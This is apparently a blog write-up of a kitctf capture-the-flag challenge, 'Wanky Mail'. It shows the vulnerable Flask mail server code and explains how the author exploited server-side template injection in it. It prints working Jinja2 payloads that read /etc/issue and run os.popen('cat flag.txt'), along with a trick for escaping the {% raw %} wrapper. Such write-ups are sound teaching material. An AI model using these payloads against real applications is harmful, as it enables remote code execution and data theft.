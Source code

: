 ```yaml
---
layout: post
title:  "Template Injection Kitctf"
date:   2023-06-19 17:12:34 -0300
categories: [writeup]
tags: [writeup]
---
```



In this blog post, we will explore a specific template injection vulnerability discovered in a CTF (Capture The Flag) challenge from kitctf. We will delve into the details of the vulnerability. Let’s dive in!

> If you don’t know what is template injection, strong recoment that you visit the Burp labs https://portswigger.net/web-security/server-side-template-injection.

Brief introduction what is template injection. Template injection occurs when an application allows user-controlled input to be directly included in a template without proper sanitization or validation. This can lead to the execution of arbitrary code within the template context, potentially leading to remote code execution (RCE) or other critical security breaches.

### The challeger (Chall)
The chall was called “Wanky Mail”. Wanky Mail is a temporary mail server, which you could send and receive messages. The cool thing about kitctf is that they provide a Dockerfile for you to “build” the challenge on your machine, and also the source code!. Below is the code of the mail server:

```python
from flask import Flask, render_template_string, request, redirect, abort
from aiosmtpd.controller import Controller
from datetime import datetime
from base58 import b58decode, b58encode
import random 
import string
import os
from datetime import datetime
import queue

mails = {}
active_addr = queue.Queue(1000)

def format_email(sender, rcpt, body, timestamp, subject):
    return {"sender": sender, "rcpt": rcpt, 'body': body, 'subject': subject, "timestamp": timestamp}

def render_emails(address):
    id = 0
    render = """
    <table>
        <tr>
            <th id="th-left">From</th>
            <th>Subject</th>
            <th id="th-right">Date</th>
        </tr>
    """
    overlays = ""
    m = mails[address].copy()
    for email in m:

        render += f"""
        <tr id="{id}">
            <td>{email['sender']}</td>
            <td>{email['subject']}</td>
            <td>{email['timestamp']}</td>
        </tr>
        """
        overlays += f"""
        <div id="overlay-{id}" class="overlay">
            <div class="email-details">
                <h1>{email['subject']} - from: {email['sender']} to {email['rcpt']}</h1>
                <p>{email['body']}</p>
            </div>
        </div>
        """
        id +=1
    render += "</table>"
    render += overlays
    return render


def get_emails(id):
    with open('templates/index.html') as f:
        page = f.read()
        return page.replace('{{$}}', render_emails(id))

def log_email(session, envelope):
    print(f'{session.peer[0]} - - {repr(envelope.mail_from)}:{repr(envelope.rcpt_tos)}:{repr(envelope.content)}', flush=True)

def esc(s: str):
    return "{% raw %}" + s + "{% endraw %}"

class Handler:
     async def handle_RCPT(self, server, session, envelope, address, rcpt_options):
        if not address.endswith(os.environ.get('HOSTNAME')):
             return '550 not relaying to that domain'
        envelope.rcpt_tos.append(address)
        print(address, flush=True)
        return '250 OK'

     async def handle_DATA(self, server, session, envelope):
        m = format_email(esc(envelope.mail_from), envelope.rcpt_tos[0], esc(envelope.content.decode()), datetime.now().strftime("%d-%m-%Y, %H:%M:%S"), "PLACEHOLDER")
        log_email(session, envelope)
        r = envelope.rcpt_tos[0]
        if not mails.get(r):
            if active_addr.full():
                mails.pop(active_addr.get())
            mails[r] = []
            active_addr.put(r)
        if len(mails[r]) > 10:
            mails[r].pop(0)
        mails[r].append(m)
        return '250 OK'

c = Controller(Handler(), "0.0.0.0")
c.start()


app = Flask(__name__)
@app.route('/')
def index():
    username = ''.join(random.choice(string.ascii_lowercase) for i in range(12))
    address = f"{username}@{os.environ.get('HOSTNAME', 'example.com')}"
    if not address in mails.keys():
        if active_addr.full():
            del mails[active_addr.get()]
        mails[address] = []
        active_addr.put(address)
    id = b58encode(address).decode()
    return redirect("/" + id)

@app.route('/<id>')
def mailbox(id):
    address = b58decode(id).decode()
    if not address in mails.keys():
        abort(404)    
    return render_template_string(get_emails(address), address=address)

if __name__ == '__main__':
    app.run()

```

### Analyzing the code
Analyzing the code we can identify that when sending an email to our temporary email, the code uses an escape function to render the email, as illustrated below:

```python
def esc(s: str):
    return "{% raw %}" + s + "{% endraw %}"

class Handler:
     async def handle_RCPT(self, server, session, envelope, address, rcpt_options):
        if not address.endswith(os.environ.get('HOSTNAME')):
             return '550 not relaying to that domain'
        envelope.rcpt_tos.append(address)
        print(address, flush=True)
        return '250 OK'

     async def handle_DATA(self, server, session, envelope):
        m = format_email(esc(envelope.mail_from), envelope.rcpt_tos[0], esc(envelope.content.decode()), datetime.now().strftime("%d-%m-%Y, %H:%M:%S"), "PLACEHOLDER")
        log_email(session, envelope)
        r = envelope.rcpt_tos[0]
        if not mails.get(r):
            if active_addr.full():
                mails.pop(active_addr.get())
            mails[r] = []
            active_addr.put(r)
        if len(mails[r]) > 10:
            mails[r].pop(0)
        mails[r].append(m)
        return '250 OK'

c = Controller(Handler(), "0.0.0.0")
c.start()

```

So as you can see, in the code, every time someone sends an email, the “subject” and “content” fields execute the esc() function. To use the temporary email service, kitctf people provided some information to use the email server, to use the service, I made the following code in python to send emails using the smtplib library. As the following code demonstrates:


```python

import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart


sender_email = 'abx@kitctf.de'
receiver_email = 'abx@kitctf.de'
subject = 'pewpew'
message = 'pewpew'


msg = MIMEMultipart()
msg['From'] = sender_email
msg['To'] = receiver_email
msg['Subject'] = subject

msg.attach(MIMEText(message, 'plain'))


smtp_server = 'mailserver-from-kitctf'
smtp_port = 8025

with smtplib.SMTP(smtp_server, smtp_port) as server:
    server.sendmail(sender_email, receiver_email, msg.as_string())

```

The first step was to send a test code, in the subject field, with the objective of circumventing the esc() function, the payload {{7*7}} was used:

![](/images/kitctf-1.png)

![](/images/kitctf-2.png)

The next step was to try to run commands using the command 'opcod3r'.__class__.__base__.__subclasses__()[92].__subclasses__()[0].__subclasses__()[0]('/etc/issue').read():

![](/images/kitctf-3.png)

The next step was to execute the payload to list the files contained in the machine, the following payload was used {{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()}}.

![](/images/kitctf-4.png)

![](/images/kitctf-5.png)

> All payloads had to be between {% endraw %} (% raw %}. Example: {% endraw %} {{ 7*7 }} {% raw %}, this was necessary to bypass the esc() function.

